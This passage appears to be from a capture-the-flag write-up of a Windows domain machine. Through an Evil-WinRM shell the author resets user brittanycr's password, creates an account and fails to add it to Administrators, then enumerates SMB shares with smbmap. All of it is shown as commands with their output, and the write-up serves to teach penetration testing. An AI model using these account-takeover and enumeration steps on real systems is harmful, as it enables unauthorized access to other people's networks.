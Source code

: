 Trying it out, apparently we have to make the password stronger ... which means we can change it?

You could do random guesses to figure the right one, but we have the answer already, as was with `lilyle`'s accounts ;)

```
*Evil-WinRM* PS C:\Users> net user brittanycr ChangeMe#1234
The command completed successfully.
```

:stonks:

```
❯ evil-winrm -u brittanycr -p ChangeMe#1234 -i 10.10.16.138

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError                                                                              

Error: Exiting with code 1
```

Okay this should have worked. But what else ... ? 

Meanwhile, let's login as `buse`, and add ourselves to the network :D `net user <username> <password> /add`.

```
*Evil-WinRM* PS C:\Users\buse\Documents> net user tanishq ChangeMe#1234 /add
The command completed successfully.
```

```
*Evil-WinRM* PS C:\Users\buse\Documents> net localgroup Administrators tanishq /add
net.exe : System error 5 has occurred.
    + CategoryInfo          : NotSpecified: (System error 5 has occurred.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

Access is denied.
```

Ah shet. We dont have enough permissions to add ourselves. 

Let's try `smbmap` and `smbclient` for brittany instead.

```
❯ smbmap -u brittanycr -p ChangeMe#1234 -H 10.10.16.138
[+] IP: 10.10.16.138:445        Name: 10.10.16.138                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY

```
